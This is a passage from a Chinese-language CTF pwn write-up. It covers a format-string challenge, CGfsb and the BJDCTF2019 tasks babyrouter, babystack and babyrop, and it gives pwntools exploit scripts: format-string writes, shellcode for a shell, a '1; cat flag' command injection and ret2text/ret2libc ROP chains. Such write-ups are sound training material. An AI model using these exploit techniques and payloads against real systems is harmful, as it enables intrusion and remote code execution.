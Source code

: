 而 `v4` 实际上就是 `v3`，那么这里将 `v3[0]` 改为 `85` 即可。而巫师给我们的 `secret[0]` 恰好就是我们需要的 `v3[0]` 的地址，我们把这个地址输入到 `Give me an address` 后，然后在 `wish` 处输入格式化字符串。首先由于需要 `%n` 写入，我们先输出 85 个字符即 `%85c`，随后要测出偏移，可以通过 `aaaa%p.%p.` 这种形式的格式化字符串测出偏移为 7。因此最终构造的格式化字符串为 `%85c%7$n`。

```python
ru('secret[0] is ')
addr = int(ru('\n'), 16)
sla('name be:\n', 'merc')
sla('up?:\n', 'east')
sla('(0)?:\n','1')
sla("address'\n", str(addr))
sla('is:\n', '%85c%7$n')
ru('SPELL\n')
sl(asm(shellcraft.sh()))
```

### getshell

nc 直连。

### CGfsb

同样是格式化字符串漏洞，相比 `string` 那题要简单不少，只需要让全局变量 `pwnme` 为 8，地址可直接 IDA 得到，偏移量同样通过 `aaaa%p.%p.` 测出。为此构造字符串 `pwnme 地址 ` + `%4c%10$n`，`%4c` 是为了让已打印字符凑足 8 个。

```python
pwnme = 0x804a068
sla('name:\n', 'merc')
sla('please:\n', p32(pwnme) + '%4c%10$n')
```

## BJDCTF2019

### babyrouter

读入 ip 地址并没有过滤就作为 `system` 的参数。因此直接构造 `1; cat flag` 即可。

### babystack

ret2text 模板题。

```python
sla('name:\n','1000')
payload = flat('a'*0x18,elf.sym['backdoor'])
sla('name?\n', payload)
```

### babyrop

ret2libc 模板题。

```python
pop_rdi = 0x400733
payload = flat('a'*0x28,pop_rdi,elf.got['read'],elf.plt['puts'],elf.sym['vuln'])
ru('story!\n')
sl(payload)
read = uu64(r(6))
leak('read',read)
system,binsh = ret2libc(read,'read')
payload = flat('a'*0x28,pop_rdi,binsh,system,'a'*8)
sla('story!\n',payload)
```
